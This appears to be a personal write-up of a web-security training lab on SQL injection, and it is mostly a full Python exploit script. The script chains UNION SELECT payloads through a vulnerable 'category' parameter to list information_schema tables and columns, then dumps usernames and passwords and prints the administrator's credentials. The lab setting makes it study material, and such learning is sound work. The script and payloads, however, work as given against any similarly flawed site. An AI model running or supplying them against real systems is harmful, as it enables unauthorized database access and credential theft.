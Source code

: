 ```yaml
---
title: 'SQLi Lab 5'
description: 'SQL injection for metadata enumeration and admin credential extraction'
---
```



## SQL injection attack, listing the database contents on non-Oracle databases

<div style="text-align: justify;">
  In this lab, I explored how SQL injection (SQLi) vulnerabilities can be escalated beyond authentication bypass to full database enumeration. The lab targeted a non-Oracle database (like MySQL or Microsoft SQL Server), using metadata tables such as `information_schema.tables` and `information_schema.columns`.

  By chaining multiple `UNION SELECT` injections, I was able to list all table names, extract sensitive column names like `username` and `password`, and ultimately retrieve administrator credentials. The exercise demonstrated how exposing metadata through SQLi can lead to complete account compromise — a common, yet severe, backend vulnerability.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter is vulnerable to SQL injection.
- A `UNION SELECT` is used to list table names from `information_schema.tables`.
- Another injection pulls column names from `information_schema.columns`.
- The script identifies the table that stores user credentials.
- A final injection dumps usernames and passwords.
- Admin credentials are extracted from the output.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def Get_User_Table(url):
    uri = '/filter?category='
    payload = '\' UNION+SELECT table_name, NULL FROM information_schema.tables--'
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('users_'):
            user_value = th.text
            break
    
    return user_value


def Get_columns(url, Table_Name):
    uri = '/filter?category='
    payload = f"'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='{Table_Name}'--"
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    for th in soup.find_all('th'):
        if th.text.startswith('username_'):
            user_value = th.text
            break

    for th in soup.find_all('th'):
        if th.text.startswith('password_'):
            password_value = th.text
            break
    
    return user_value, password_value


def Get_Administrator_Credentials(url, Get_User_Table, table_name):
    user, pwd = Get_User_Table
    payload = f"' UNION SELECT {user}, {pwd} FROM {table_name}--"
    uri = '/filter?category='
    r = requests.get(url + uri + payload , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    
    
    # Find the row where <th> contains "administrator"
    admin_row = soup.find('th', string='administrator')

    if admin_row:
        admin_username = admin_row.text.strip()
        admin_password = admin_row.find_next_sibling('td').text.strip()
        print("Username:", admin_username)
        print("Password:", admin_password)
    else:
        print("Administrator entry not found.")


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)    
    
    Get_Administrator_Credentials(url, Get_columns(url, Get_User_Table(url)), Get_User_Table(url))                    
```


<Comment />
